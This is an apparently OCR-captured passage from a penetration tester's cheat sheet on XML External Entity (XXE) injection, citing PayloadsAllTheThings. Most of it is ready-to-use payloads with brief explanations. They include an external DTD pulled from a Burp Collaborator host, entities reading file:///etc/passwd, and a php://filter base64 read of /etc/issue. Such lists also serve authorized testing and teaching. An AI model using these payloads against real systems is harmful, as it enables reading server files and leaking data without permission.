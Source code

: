 ```powershell
```


#### XML External Entity (XXE)

```powershell

#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

XML is essential a language designed to transport data in a structured format, ,similar to JSON.

Basic XXE Check

<?xml version="1.0" encoding="utf-8"?><!DOCTYPE data SYSTEM "http://123123123.burpcollaborator.net/m0chan.dtd"><data>&all;</data>

XXE is a vuln that occurs when an application parses XML. 


<?xml version="1.0"?>
<!DOCTYPE note [
<!ENTITY user "m0chan">
<!ENTITY message "m0chanmessage">
]>

In this example the ENTITY user holds the info m0chan which can be called with &user

Now this is useful as we get something called EXTERNAL ENTITY which will load the data from a external resource in comparison to something "local"

Examples:

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://m0chan.github.io" > ]>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>


We could also combine this with PHP Object Injection (More on that below) to have a payload like this 

<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/etc/issue' >]>

Testing the Waters

<?xml version="1.0" encoding="utf-8"?>

Testing the Waters #2


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY % m0chan SYSTEM "file:///etc/passwd">
%m0chan;
]>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>
&xxe;
</foo>


Base64
```